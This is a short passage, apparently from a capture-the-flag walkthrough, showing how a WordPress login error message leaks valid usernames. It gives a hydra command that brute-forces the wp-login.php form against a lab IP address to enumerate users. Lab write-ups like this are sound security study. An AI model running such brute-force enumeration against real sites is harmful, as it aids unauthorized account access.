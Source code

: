 ![Invalid username](img/Invalid_username.png)

We can use that to enumerate some valid usernames by using `hydra` to brute-force:

```bash
$ hydra -L fsociety_filtered.dic -p whatever 192.168.1.25 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

![hydra](img/hydra.png)
